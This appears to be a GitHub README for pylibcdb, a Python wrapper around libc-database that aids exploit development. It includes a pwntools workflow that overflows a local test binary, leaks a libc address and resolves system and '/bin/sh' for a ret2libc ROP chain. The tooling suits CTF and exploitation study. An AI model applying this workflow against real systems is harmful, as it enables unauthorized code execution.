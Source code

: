 # pylibcdb

pylibcdb is a python>=3.7 [libc_database](https://github.com/niklasb/libc-database) wrapper, its purpose is to improve exploit development tasks like ASLR bypass with an unknown libc.

With time i'd like to add more features and automated useful functions, for now this is the basic version.

### Requirements

There aren't python dependeces for now, but you need to install [libc_database](https://github.com/niklasb/libc-database) locally.

### Context

- x86_64 Linux

### Basic usage

```python
from pylibcdb import LibcDB

libcdb = LibcDB("/path/to/your/libc-database")
libc_name = libcdb.find_by_address("0x7fe7ac9a7fc0") #leaked __libc_start_main
print(libc_name)
libc_path = libcdb.download_by_name(libc_name)
print(libc_path)
```

```
libc6_2.31-0ubuntu9.1_amd64
/path/to/your/libc-database/libs/libc6_2.31-0ubuntu9.1_amd64/libc-2.31.so
```
This .so can be easily analyzed (or used with [pwntools](https://github.com/Gallopsled/pwntools) ELF()) to discovery function addresses and build a ROP chain.
In this way there's no need to launch "find" and "download" scripts manually with several copy-paste.

#### A more detailed example

```python
from pwn import *
from pylibcdb import LibcDB

p = process("./vuln_test")
elf = ELF("./vuln_test")
rop = ROP(elf)

puts = elf.plt['puts']
main = elf.symbol['main']
libc_start_main = elf.symbols['__libc_start_main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]

base_payload = "A"*32 + "B"*8    #this must change for every target binary
rop = base_payload.encode() + p64(pop_rdi) + p64(libc_start_main) + p64(puts) + p64(main)

p.sendline(rop)   #this sending and receiving changes for every target binary
received = p.recvline().strip()
leak = u64(received.ljust(8, "\x00".encode()))

libcdb = LibcDB("/path/to/your/libc-database")
libc_name = libcdb.find_by_address(leak) #leaked __libc_start_main
libc_path = libcdb.download_by_name(libc_name)

libc = ELF(libc_path)
libc.address = leak - libc.sym["__libc_start_main"]

binsh = next(libc.search("/bin/sh".encode()))
system = libc.sym["system"]
```

At this point we have all we need to craft a final ROP chain and get shell. This is a workflow example in facts things may (sure) change for each scenario, but the idea is to not let target binary crashes and not stop the exploit execution to launch libc-database scripts manually.

Later I will release a complete and working example with a vulnerable binary.

#### Scripts
Without this library you have to launch:
```
./find __libc_start_main LEAKED_ADDRESS
./download LIBC_NAME_OUTPUT
```
And then you have to copy the shared object to your working directory or to use its absolute path.

### Contacts

[neetx](neetx@protonmail.com)